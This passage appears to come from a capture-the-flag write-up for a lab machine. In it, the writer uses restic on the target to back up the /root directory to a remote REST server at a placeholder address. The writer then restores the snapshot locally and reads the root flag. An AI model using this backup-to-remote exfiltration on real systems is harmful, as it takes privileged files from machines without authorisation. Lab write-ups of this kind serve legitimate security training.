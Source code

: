 `-r rest:http://IP:PORT/repo_name backup /root`

then lets restore the snapshot we've done by running this on our machine on a new terminal

`restic -r /tmp/restic-data/repo1 snapshots`

```
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
be6d4b5f  2025-09-19 18:00:47  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

Now that we have the snapshot ID we can restore it

`restic -r /tmp/restic-data/repo1 restore be6d4b5f --target ./restore`

```
cd restore/root/

ls

root.txt  scripts

cat root.txt 

0488ebe155b19d0c67c3bcb6c60a8d2d
```

And we have also the root flag!

